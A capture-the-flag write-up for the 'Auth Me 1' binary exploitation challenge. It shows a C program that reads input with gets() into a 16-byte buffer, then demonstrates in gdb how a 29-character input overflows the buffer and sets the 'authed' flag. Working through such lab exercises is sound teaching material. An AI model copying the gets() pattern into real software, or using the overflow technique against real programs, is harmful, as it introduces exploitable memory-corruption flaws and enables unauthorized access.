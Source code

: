 # Binary Exploitation

Challenge Name : Auth Me 1

# Solution

Use the webshell and go to the directory stated in the challenge's description

![](https://github.com/H0j3n/EzpzCTF/blob/main/src/Pasted%20image%2020210610163036.png)

Before we run let's analyze the source code first.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64
 
char flag[FLAGSIZE_MAX];
   
void setup(){
  FILE *f = fopen("flag.txt","r");
  fgets(flag,FLAGSIZE_MAX,f);
  gid_t gid = getegid();                                                                                                                                                                        
  setresgid(gid, gid, gid);                                                                                                                                                                     
}                                                                                        
int main(int argc, char **argv){
  setup();                                                                                                                                                                                      
  int authed = 0;
  char user[16];
  printf("Authenticate Me 1.0\n");
  printf("--------------------------------\n");
  printf("Enter your username: ");
  gets(user);                                                                                                                                                                                   
  // Haven't implement login function yet
  if(authed){
    printf("Welcome admin! Here is your flag: %s",flag);
  }else{
    printf("Good Bye %s\n",user);
  }                                                                                                                                                                                             
  return 0;
}

```

We found out that it use `gets()` but how can we change `authed` value to 1? Since we can do buffer overflow we might be able to change the value of the variable to other values. Lets save the code as `auth.c` and compile it first.

```bash
gcc auth.c -o auth -fno-stack-protector
```

Then run it .

```bash
gdb ./auth
```

Set a breakpoint to the value if statement or with the line of `cmp`.

```bash
b *0x00005555555548b2
```

![](https://github.com/H0j3n/EzpzCTF/blob/main/src/Pasted%20image%2020210610170033.png)

We know that user has `16` size so if we added another `8` bytes it should be 24 . Try inrease it one by one until you are able to change the value of what its comparing to something else. To check the value of what it comparing use this command:

```bash
x/w $rbp-0x4
```

This is the value when we put normal value .

![](https://github.com/H0j3n/EzpzCTF/blob/main/src/Pasted%20image%2020210610170438.png)

This is the value when we put `29` characters of `a`.

![](https://github.com/H0j3n/EzpzCTF/blob/main/src/Pasted%20image%2020210610170550.png)

`61` is equivalent to `a` if we convert it from hex. So we can get flag because if statement will check if there is value other than 0 it will become true. So we just need to run this ro get our flag

```bash
python3 -c "print('a' * 29)" | ./auth ;echo
```

# Flag

![](https://github.com/H0j3n/EzpzCTF/blob/main/src/Pasted%20image%2020210610170826.png)



